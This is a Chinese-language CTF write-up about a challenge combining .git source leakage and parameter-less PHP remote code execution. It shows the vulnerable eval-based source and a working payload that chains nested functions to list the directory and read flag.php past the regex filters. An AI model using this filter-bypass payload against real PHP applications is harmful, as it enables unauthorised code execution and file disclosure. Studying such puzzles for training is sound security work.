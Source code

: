 # 知识点：

# 1.无参数rce

# 2. .git源码泄露



此题类似于：字节跳动 bring code



# 1. 扫描发现存在.git目录



## 2.githacker下载源码

```javascript
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```



# 3.存在flag.php文件和eval函数

说明需要rce读取flag.php文件的内容



# 4.正则：/[a-z,_]+\((?R)?\)/

只允许无参数的函数执行，列如：a(b())；这种，而a('ls')；则不行

且禁用了伪协议。



# 5.构造payload:

```javascript
echo(readfile(array_rand(array_flip(scandir(chr(ceil(sinh(cosh(tan(floor(
sqrt(floor(phpversion())))))))))))));

chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))))
//chr(46)  :   .
array_rand : //从数组中随机取出一个键
array_filp : //交换数组键值
```







